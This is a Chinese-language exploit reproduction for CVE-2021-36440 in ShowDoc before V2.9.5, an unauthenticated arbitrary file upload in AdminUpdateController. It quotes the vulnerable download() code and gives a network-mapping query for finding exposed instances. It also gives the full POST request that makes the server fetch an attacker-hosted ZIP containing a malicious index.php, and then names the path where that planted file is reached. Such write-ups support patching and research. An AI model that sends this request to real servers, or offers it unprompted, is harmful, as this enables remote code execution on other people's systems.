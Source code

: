 # ShowDoc AdminUpdateController.class.php 任意文件上传漏洞 CVE-2021-36440

# ShowDoc AdminUpdateController.class.php 任意文件上传漏洞 CVE-2021-36440

## 漏洞描述

ShowDoc AdminUpdateController.class.php 文件中的更新部分代码没有鉴权且存在任意文件上传漏洞

## 漏洞影响

```
ShowDoc < V2.9.5
```

## 网络测绘

```
app="ShowDoc"
```

## 漏洞复现

登录页面

![image-20220524153008064](/images/202205241530123.png)

文件路径`server/Application/Api/Controller/AdminUpdateController.class.php`

![](/images/202205241530546.png)

```
public function download(){
        set_time_limit(1000);
        ini_set('memory_limit','500M');
        $new_version = I("new_version") ;
        $file_url = I("file_url") ;
        $version_num = str_replace("v","",$new_version) ;

        $showdoc_path = "../" ;

        // 进行文件读写权限检查
        if(!$this->new_is_writeable($showdoc_path)
            || !$this->new_is_writeable($showdoc_path."Sqlite/" )
            || !$this->new_is_writeable($showdoc_path."web/" )
            || !$this->new_is_writeable($showdoc_path."web/index.php" )
            || !$this->new_is_writeable($showdoc_path."server/" )
            || !$this->new_is_writeable($showdoc_path."server/vendor/autoload.php" )
            || !$this->new_is_writeable($showdoc_path."server/Application/Api" )
        ){
            $this->sendError(10101,'请手动给showdoc安装目录下的所有文件可写权限，否则程序无法覆盖旧文件');
            return ;
        }

        $temp_dir = sys_get_temp_dir()."/showdoc_update/";
        $zip_file = $temp_dir.'showdoc-'.$version_num.'.zip' ;
        mkdir($temp_dir) ;
        unlink($zip_file);
        $file = file_get_contents($file_url);
        file_put_contents($zip_file,$file);
        
        $zip = new \ZipArchive();
        $flag = $zip->open($zip_file);
        if($flag!==true){
            $this->sendError(10101,'下载更新压缩包失败');
            return ;
        }
        $zip->extractTo($temp_dir);
        $flag = $zip->close();
        
        $zip_file_subpath = $temp_dir.'showdoc-'.$version_num."/" ;
        
        if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
            //echo $zip_file_subpath.'存在';
            // 移动目录到upload/update
            $this->copydir($zip_file_subpath ,$showdoc_path.'Public/Uploads/update/' );
            $this->deldir($temp_dir);
            $this->sendResult(array());
        
        }else{
            $this->sendError(10101,'下载更新压缩包后，解压的文件缺失');
            return ;
        }
    }
```

这里可以看到 $file_url 参数可控，可在任意URl下载 zip文件，向后看看ZIP要求为需要存在部分文件

```
if(file_exists($zip_file_subpath.'composer.json') && file_exists($zip_file_subpath.'web/index.php') && file_exists($zip_file_subpath.'server/vendor/autoload.php') ){
```

制作ZIP包，index.php 为恶意文件

![image-20220524153052669](/images/202205241530708.png)

发送请求包

```
POST /server/index.php?s=/api/adminUpdate/download
  
file_url=http://xxx.xxx.xxx:8888/showdoc-2.zip&new_version=2
```

![](/images/202205241531609.png)

访问上传的文件页面 `Public/Uploads/update/web/index.php`

